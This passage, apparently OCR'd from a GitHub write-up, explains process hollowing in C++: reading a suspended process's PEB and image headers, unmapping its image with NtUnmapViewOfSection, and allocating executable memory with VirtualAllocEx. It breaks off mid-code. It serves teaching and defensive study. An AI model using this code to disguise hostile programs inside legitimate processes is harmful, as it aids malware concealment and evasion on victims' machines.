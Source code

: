 ```cpp
PPEB pPEB = ReadRemotePEB(pProcessInfo->hProcess);
```
 
Once the PEB is read from the process, the image base is used to read the NT headers. Once again ReadProcessMemory is utilized, and the functionality is wrapped in a convenient helper function.

```cpp
PLOADED_IMAGE pImage = ReadRemoteImage
(
      pProcessInfo->hProcess,
      pPEB->ImageBaseAddress
);
```
 
Carving The Hole
With headers in hand there is no longer a need for the destination image to be mapped into memory. The NtUnmapViewOfSection function can be utilized to get rid of it. 

```cpp
printf("Unmapping destination section\r\n");
 
HMODULE hNTDLL = GetModuleHandleA("ntdll");
 
FARPROC fpNtUnmapViewOfSection = GetProcAddress
(
      hNTDLL,
      "NtUnmapViewOfSection"
);
 
_NtUnmapViewOfSection NtUnmapViewOfSection =
      (_NtUnmapViewOfSection)fpNtUnmapViewOfSection;
 
DWORD dwResult = NtUnmapViewOfSection
(
      pProcessInfo->hProcess,
      pPEB->ImageBaseAddress
);
 
if (dwResult)
{
      printf("Error unmapping section\r\n");
      return;
}
```
 
Next, a new block of memory is allocated for the source image. The size of the block is determined by the SizeOfImage member of the source images optional header. For the sake of simplicity the entire block is flagged as PAGE_EXECUTE_READWRITE, but this could be improved upon by allocating each portable executable section with the appropriate flags based on the characteristics specified in the section header.

```cpp
printf("Allocating memory\r\n");
 
PVOID pRemoteImage = VirtualAllocEx
(
      pProcessInfo->hProcess,
      pPEB->ImageBaseAddress,
      pSourceHeaders->OptionalHeader.SizeOfImage,
      MEM_COMMIT | MEM_RESERVE,
      PAGE_EXECUTE_READWRITE
);
 
if (!pRemoteImage)
{
      printf("VirtualAllocEx call failed\r\n");
      return;
```